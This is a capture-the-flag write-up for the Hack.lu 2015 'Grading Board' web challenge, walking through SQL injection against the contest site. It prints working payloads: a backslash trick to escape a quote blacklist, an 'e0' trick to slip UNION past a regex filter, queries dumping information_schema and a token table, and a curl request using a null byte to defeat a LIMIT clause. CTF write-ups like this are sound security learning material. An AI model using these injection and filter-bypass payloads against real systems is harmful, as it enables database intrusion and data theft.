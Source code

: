 #Hack.lu 2015 Grading Board [web] 300

#Problem
You are sitting in your computer science class and are already done with your assignment (well, who would have guessed that). But you know that even though you did a perfect job (obviously) your teacher will give you a shitty grade because he can't stand your face.<br>
Well well well, it is time to put your skills on the table and show that son of a ... (you know the word I am looking for)... who the boss is. Thanks to the Ashley Madison dump and the stupidity of your teacher (seriously, how can he even teach the class...) you got the login credentials to the grading board.<br>
But, unlucky for you, your shithead of class mate found a vulnerability inside the website and went all whitehat on that shit and reported it (believe me I know ....in a different world...), he was also tasked to improve the security of the system.<br>
Fortunately for you, he left his phone unlocked and unattended, which allowed you to forward yourself the email containing the patch for the website, .... end to end encryption out of the window right there....,<br>
Alright son, get your shit together and let's get cracking<br>

Here is the [patch](https://school.fluxfingers.net/static/chals/patch_953dc87b784435d237b33a4f2fc20612.diff)!<br>
And the [Website](https://school.fluxfingers.net:1506/)

The login credentials are:<br>
Username: kdavis<br>
Password: trolo!Fool<br>

##Solution
The website is divided into two parts: search and login.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/1.png)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/2.png)

The account for signing in is given in the problem description. After login, the website will ask for token.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/3.png)

After taking a short look at the patch file, I saw following SQL syntax:
<pre>
<code>
select id, first_name, last_name from students
WHERE first_name='$name'
   OR last_name='$name' ORDER BY id ASC LIMIT 5;
</code>
</pre>

And the blacklist replaced **'**, **"**, **/** and * , So it was possible to use '**#\**' to escape the single quote. The SQL syntax would become:
<pre>
<code>
select id, first_name, last_name from students
            WHERE first_name='<SQLi>#\' OR last_name='<SQLi>#\' ORDER BY id ASC LIMIT 5;
</code>
</pre>

<br>After trying "**OR 1=1 #\**" as input, the SQLi worked.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/4.png)

Also, the patch tried to disable union SQLi by regex: [^a-zA-Z0-9\_]union[^a-zA-Z0-9\_]<br>
But we still have some ways to bypass the limitation.<br>
[Union Bypass Reference](https://github.com/client9/libinjection/blob/master/data/sqli-rsalgado-bhusa2013.txt)<br>
In the reference, it showed that SQL syntax still worked with content "OR 1=1**e0**Union...". We could use this trick to bypass the above limitation.<br>

In the patch, it told us how the table name was generated and all the column names we had in the table, but it was also easy to use information\_schema to get all the information we needed. Just entered following input:
<pre><code>
AND 1=1e0UNION SELECT table_schema, table_name, column_name FROM information_schema.columns#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/5.png)<br>
The table name and column name were there!<br>

And then I tried the following input:
<pre><code>
AND 1=1e0UNION SELECT 1, 2, token FROM t608f2cde509866e#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/6.png)

After summiting the token, I got the flag. :)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/flag.png)

<br>
Note:<br>
It's also possible to bypass the limit of "LIMIT 5" by using null byte. We can modify our input as following and use curl to send our post request:
<pre><code>
curl -X POST --data "name=AND 1=1e0union select table_schema, table_name, column_name FROM information_schema.columns;%00\&site=default&action=search" https://school.fluxfingers.net:1506/
</code></pre>
And you can get the whole results instead of 5 columns only.


